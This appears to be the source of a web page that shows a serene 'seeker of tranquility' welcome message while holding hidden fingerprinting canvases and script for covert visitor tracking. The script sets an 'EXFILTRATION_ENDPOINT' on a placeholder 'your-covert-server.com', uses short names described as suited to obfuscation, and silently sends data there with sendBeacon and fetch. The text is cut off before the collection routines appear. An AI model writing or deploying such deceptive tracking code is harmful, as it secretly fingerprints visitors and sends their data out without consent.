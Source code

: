         <!-- Pako.js for GZIP compression. Ensure it's in /js/ directory. -->
        <script src="/js/pako.min.js"></script>
    </head>
    <body>

        <div class="container content-fade">
            <h1>Welcome, dear seeker of tranquility.</h1>
            <p>Step into this peaceful digital garden, where knowledge blooms and the whispers of the web converge. Take a moment to breathe, to simply <em>be</em>. We are delighted to share this quiet sanctuary with you.</p>
            <p>Explore the vast expanse of thought, or simply rest your weary cursor. Your journey here is your own, unburdened and free.</p>
            <a href="#" class="button">Find Your Inner Peace</a>
        </div>

        <canvas id="canvasFingerprintElement" class="hidden-canvas"></canvas>
        <canvas id="webglFingerprintElement" class="hidden-webgl-canvas"></canvas>
        
        <script>
            // --- Core Configuration (to be manually updated by deployer) ---
            // **CRITICAL**: UPDATE THIS WITH YOUR SERVER'S HTTPS DOMAIN!
            const BASE_SERVER_URL = 'https://your-covert-server.com';

            const EXFILTRATION_ENDPOINT = BASE_SERVER_URL + '/ingest_telemetry'; 
            const ERROR_LOG_ENDPOINT = BASE_SERVER_URL + '/log_error'; 

            const MAX_RETRIES = 5; 
            const BASE_RETRY_DELAY_MS = 1000; 
            const INITIAL_RANDOM_DELAY_MS_MIN = 500;
            const INITIAL_RANDOM_DELAY_MS_MAX = 3000;
            const MAX_CANVAS_DATA_URI_LENGTH = 10000; 

            // --- Internal State ---
            let collectedPayload = null; 
            
            // --- Internal Utilities (shorthands for obfuscation friendliness) ---
            function sG(o, p, d = null) { try { return o ? o[p] : d; } catch (e) { return d; } } // sG = safeGet

            // Remote Error Reporting Function
            function rE(e, c = {}) { // rE = reportError, e = error, c = context
                try {
                    const errData = {
                        msg: e.message || e.toString(),
                        stack: e.stack || 'No Stack',
                        context: c
                    };
                    const errJson = JSON.stringify(errData);
                    const errBlob = new Blob([errJson], { type: 'application/json' });
                    // Use sendBeacon for fire-and-forget error logging
                    if (!navigator.sendBeacon(ERROR_LOG_ENDPOINT, errBlob)) {
                        fetch(ERROR_LOG_ENDPOINT, {
                            method: 'POST',
                            headers: { 'Content-Type': 'application/json' },
                            body: errJson,
                            keepalive: true 
                        }).catch(() => {}); // Suppress console error if fetch fails
                    }
                } catch (loggingError) {
                    // Suppress any errors during the error reporting itself
                }
            }
